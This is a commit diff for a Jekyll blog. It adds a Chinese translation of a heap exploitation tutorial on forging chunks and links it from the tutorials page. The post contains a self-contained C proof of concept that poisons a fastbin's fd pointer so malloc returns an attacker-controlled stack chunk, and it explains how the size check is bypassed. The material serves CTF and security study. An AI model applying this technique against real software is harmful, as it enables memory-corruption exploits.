

Before and after one commit to Trietptm-on-Coding-Algorithms/vancir.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (274-1005 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed lines change nothing that is shown.

Commit message:
update forging chunks

````diff
--- /dev/null
+++ b/_posts/2017-08-12-forging-chunks.md
@@ -0,0 +1,68 @@
+---
+title: Heap Exploitation系列翻译-10 Forging chunks
+time: 2017-08-12
+tags: [CTF, pwn, heap]
+layout: post
+categories: posts
+---
+
+# Forging chunks
+
+> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文
+
+在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.
+
+```c
+struct forged_chunk {
+  size_t prev_size;
+  size_t size;
+  struct forged_chunk *fd;
+  struct forged_chunk *bck;
+  char buf[10];               // padding
+};
+
+// First grab a fast chunk
+a = malloc(10);               // 'a' points to 0x219c010
+
+// Create a forged chunk
+struct forged_chunk chunk;    // At address 0x7ffc6de96690
+chunk.size = 0x20;            // This size should fall in the same fastbin
+data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
+strcpy(data, "attacker's data");
+
+// Put the fast chunk back into fastbin
+free(a);
+// Modify 'fd' pointer of 'a' to point to our forged chunk
+*((unsigned long long *)a) = (unsigned long long)&chunk;
+// Remove 'a' from HEAD of fastbin
+// Our forged chunk will now be at the HEAD of fastbin
+malloc(10);                   // Will return 0x219c010
+
+victim = malloc(10);          // Points to 0x7ffc6de966a0
+printf("%s\n", victim);       // Prints "attacker's data" !!
+```
+
+伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.
+
+fastbin的状态变化如下:
+
+1. 'a' freed.
+  > head -> a -> tail
+2. a's fd pointer changed to point to 'forged chunk'.
+  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
+3. 'malloc' request
+  > head -> forged chunk -> undefined
+4. 'malloc' request by victim
+  > head -> undefined   [ forged chunk is returned to the victim ]
+
+注意以下几点:
+
+* Another 'malloc' request for the fast chunk in the same bin list will result in segmentation fault.
+* Even though we request for 10 bytes and set the size of the forged chunk as 32 (0x20) bytes, both fall in the same fastbin range of 32-byte chunks.
+* This attack for small and large chunks will be seen later as 'House of Lore'.
+* The above code is designed for 64-bit machines. To run it on 32-bit machines, replace `unsigned long long` with `unsigned int` as pointers are now 4 bytes instead of 8 bytes. Also, instead of using 32 bytes as size for forged chunk, a small of the size of around 17 bytes should work.
+
+* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
+* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
+* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
+* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
--- a/tutorials.html
+++ b/tutorials.html
@@ -49,5 +49,6 @@ layout: default
     <li><a href="/posts/security-checks">Heap Exploitation系列翻译-07 Security Checks</a></li>
     <li><a href="/posts/first-fit">Heap Exploitation系列翻译-08 First Fit</a></li>
     <li><a href="/posts/double-free">Heap Exploitation系列翻译-09 Double Free</a></li>
+    <li><a href="/posts/forging-chunks">Heap Exploitation系列翻译-10 Forging chunks</a></li>
   </ol>
 </article>
````
